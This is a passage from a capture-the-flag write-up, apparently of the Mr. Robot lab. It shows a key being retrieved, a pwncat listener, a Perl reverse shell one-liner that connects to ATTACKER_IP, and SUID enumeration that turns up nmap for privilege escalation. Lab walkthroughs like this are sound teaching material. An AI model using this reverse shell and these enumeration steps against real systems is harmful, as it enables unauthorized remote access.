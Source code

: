 You can also connect using SSH as OpenSSH is running on the target machine (remember we discovered during the enum phase).

```bash
$ ls
key-2-of-3.txt password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

We finally got the second key, which is: `822c73956184f694993bede3eb39f959`.

You will likely note that the shell we just obtained (even the SSH shell) isn’t upgraded. If you’re like me and want to get a clean and upgraded shell, we can use `pwncat` again. We need to change the listening port as the `4444` is already taken.

```bash
pwncat -lp 4433 
[13:36:46] Welcome to pwncat 🐈!                                                                       __main__.py:164
bound to 0.0.0.0:4433 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

Using the command `which`, I found out that **Perl** is available on the target machine.

We can use it to get a second reverse shell using the following command.

```bash
which perl
/usr/bin/perl # Perl seems to be available

perl -e 'use Socket;$i="ATTACKER_IP";$p=4433;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

```bash
pwncat -lp 4433 
[13:36:46] Welcome to pwncat 🐈!                                                                       __main__.py:164
[13:37:23] received connection from 10.10.135.61:52852                                                      bind.py:84
[13:37:24] 0.0.0.0:4433: upgrading from /bin/dash to /bin/bash                                          manager.py:957
[13:37:25] 10.10.135.61:52852: registered new host w/ db                                                manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) robot@ip-10-10-135-61:/home/robot$
```

We finally obtained our fully functional reverse shell.

Now, as the user `robot`, we can’t do much. We need to escalate our privileges.

First, a good habit to have is to check if there are any SUID files.

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
```